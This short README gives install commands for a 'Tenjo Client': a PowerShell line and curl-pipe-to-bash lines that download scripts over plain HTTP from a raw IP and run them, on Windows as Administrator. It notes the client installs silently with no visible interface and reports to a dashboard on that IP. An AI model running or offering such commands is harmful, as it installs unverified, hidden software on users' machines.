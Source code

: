 # 🚀 Tenjo Client - Quick Install Commands

## Server: 103.129.149.67

### Windows (Run as Administrator)
```cmd
powershell -Command "Invoke-WebRequest -Uri 'http://103.129.149.67/downloads/easy_install_windows.bat' -OutFile 'tenjo.bat'; .\tenjo.bat"
```

### macOS / Linux
```bash
curl -sSL http://103.129.149.67/downloads/simple_install_macos.sh | bash
```

**Alternative (if main installer has issues):**
```bash
curl -sSL http://103.129.149.67/downloads/easy_install_macos.sh | bash
```

---

**Important Notes:**
- Windows: Must run as Administrator (right-click Command Prompt → "Run as administrator")
- macOS: Server URL is pre-configured (103.129.149.67)
- Installation is automatic and runs silently in background
- No visible interface after installation

**Dashboard Access:** http://103.129.149.67

**Support:** Include error messages if installation fails
